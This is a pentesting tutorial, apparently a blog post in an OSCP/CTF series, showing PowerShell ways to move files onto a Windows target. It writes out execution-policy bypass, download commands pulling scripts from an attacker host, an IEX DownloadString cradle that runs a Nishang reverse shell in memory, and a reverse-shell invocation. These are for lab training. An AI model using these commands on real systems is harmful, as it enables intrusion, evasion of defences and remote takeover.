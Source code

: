 ```yaml
---
layout: post
title: 'File Transfers - Part 3: PowerShell File Transfers'
date: '2022-10-22 17:57:48 +0100'
categories: [Tutorial, OSCP]
tags: [linux, windows, oscp, python, file-transfer, pentesting, code, tutorial, ctf, powershell]
---
```


This is part of a series of tutorials on file transfer methods for pentesting and CTF scenarios.

_Disclaimer: It is necessary to disable any Anti-Virus (Windows Defender etc.) and also potentially any Firewalls
on the Windows system for these transfers to work. It is highly recommended to do this in a safe, virtualised environment that is not connected to any public network or the Internet. You're responsible for the security of your own systems. These tutorials are for educational purposes only._

# Linux to Windows File Transfer

In this tutorial, we will cover the use of `powershell` to transfer files from Linux to Windows.

## Scenario

- We will transfer the file to `C:\Windows\Tasks` on WINDOWS, for reasons explained in [Part 2](https://dev-0x0.github.io/posts/file-transfers-part-2/) of this tutorial series.
- Once again we will use the **Python HTTP Server** to serve the file on our LINUX system, as explained in [File Transfers: Part 1](https://dev-0x0.github.io/posts/file-transfers).

![serve-file](/assets/img/file-transfers-2/serve-file.png)

## Transferring files with Powershell.exe

Often, our initial shell on a target Windows system will be a CMD shell. 
We can attempt to switch to a PowerShell prompt with the following command:

`powershell -ep bypass`

![bypass](/assets/img/file-transfers-3/bypass.png)

The `-ep` stands for 'Execution Policy'. According to Microsoft:

> PowerShell's execution policy is a safety feature that controls the conditions under which PowerShell loads configuration files and runs scripts. This feature helps prevent the execution of malicious scripts.

And setting the Execution Policy to 'bypass' means:

> Nothing is blocked and there are no warnings or prompts.

Basically, it allows us to load PowerShell modules and execute scripts unhindered. This is usually what we want.

Learn more [here](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2)

### 1. Invoke-WebRequest

`Invoke-WebRequest -URI http://192.168.56.102:8000/PrivescCheck.ps1 -OutFile C:\Windows\Tasks\PrivescCheck.ps1`

---

`IWR -URI http://192.168.56.102:8000/PrivescCheck.ps1 -o C:\Windows\Tasks\PrivescCheck.ps1`

![iwr](/assets/img/file-transfers-3/iwr.png)

Both of the above commands do the same thing, with `IWR` simply being a shorthand for `Invoke-WebRequest`.
The options `-URI` and `-OutFile` here are self-explanatory. Looking through the help documents for PowerShell commands,
you will find that many commands and their options have a shorthand alternative. For instance, in the second command above we used `-o` in place of `-OutFile`. See the help info on any command with `Get-Help [PowerShell Command]`.

Another handy alias for this command is `wget`, taking its name from the well-known Linux command-line tool covered in [Part 1](https://dev-0x0.github.io/posts/file-transfers) of these tutorials.

`wget http://192.168.56.102:8000/PrivescCheck.ps1 -o C:\Windows\Tasks\PrivescCheck.ps1`

![wget](/assets/img/file-transfers-3/wget.png)

### 2. Invoke-Expression - Method 1: DownloadFile

`Invoke-Expression "(New-Object Net.WebClient).DownloadFile('http://192.168.56.102:8000/PrivescCheck.ps1', 'C:\Windows\Tasks\PrivescCheck.ps1')"`

---

`IEX "(New-Object Net.WebClient).DownloadFile('http://192.168.56.102:8000/PrivescCheck.ps1', 'C:\Windows\Tasks\PrivescCheck.ps1')"`

![iex](/assets/img/file-transfers-3/iex.png)

Both of the above commands do the same thing. This command is easy to understand, it downloads the file located at the URI in the first parameter, to the location on the target system in the second parameter. As in Method 1 above, we see that `Invoke-Expression` can be shortened to `IEX`.

`New-Object` creates a new .NET Framework or COM object.<br>
`Net.WebClient` is the type of object that is created. It provides methods for sending/receiving data given a URI.<br>
`DownloadFile` is one such method. 

### 3. Invoke-Expression - Method 2: DownloadString

This example is slightly different, in that we are able to execute a script **in memory** on the target system. The file is still transferred, but only in order to execute it and ideally leave no trace on disk.

For this example, we will be using the **Invoke-PowerShellTcp.ps1** script from the [Nishang](https://github.com/samratashok/nishang) Framework. This script
enables us to execute a reverse or bind shell on the target. We will be using the reverse shell functionality.

We are going to execute this command from a CMD shell, as doing so will allow us to automatically execute the script
on the target.

`powershell IEX "(New-Object Net.WebClient).DownloadString('http://192.168.56.102:8000/Invoke-PowerShellTcp.ps1')"`

The command is similar to `DownloadFile`. However, we note the lack of a destination download location.

The **caveat** with this method is that you must include the execution command in the file itself.
For instance, a conventional scenario would be to import a powershell module from the prompt:

`. .\Invoke-PowerShellTcp.ps1`

We would then execute the reverse shell command like so:

`Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444`

However, when using `DownloadString`, we must include this command at the end of the file for it to execute, since we are never storing it to disk. We are simply using **Invoke-PowerShellTcp.ps1** as our example here. The script could be anything really.

We therefore append the command(whatever the appropriate command for the file we are transferring) to the bottom of the file prior to transfer:

![edit-file](/assets/img/file-transfers-3/edit-file.png)

Now we can transfer the file, and have it executed immediately. We will as usual serve the file with the **Python HTTP Server**, then start a **Netcat** listener on our attacking machine, and execute the PowerShell command on the target Windows system.

Executing our Powershell command
![downloadString](/assets/img/file-transfers-3/psh-iex.png)

Here we see the GET request made by PowerShell, and we catch the reverse shell
![reverse-shell](/assets/img/file-transfers-3/reverse-shell.png)


### Executing PowerShell Commands From a CMD prompt

`cmd /C powershell IWR -uri http://192.168.56.102:8000/PrivescCheck.ps1 -o C:\Windows\Tasks\PrivescCheck.ps1`

As we saw from the example above, from a CMD prompt, we can execute `powershell` commands. Another way to do this is using `cmd` with the `/C` option. The `/C` meaning 'Command' to execute. More info on this can be found by looking at the help section for `cmd.exe` with `cmd /?`.

Any of the PowerShell commands above can be executed in this manner.

## Conclusion

PowerShell presents a multitude of options for transferring and executing files. It's well worth getting comfortable with PowerShell, as it's a great addition to your personal toolkit. Hope you got something out of this tutorial. Thanks for reading!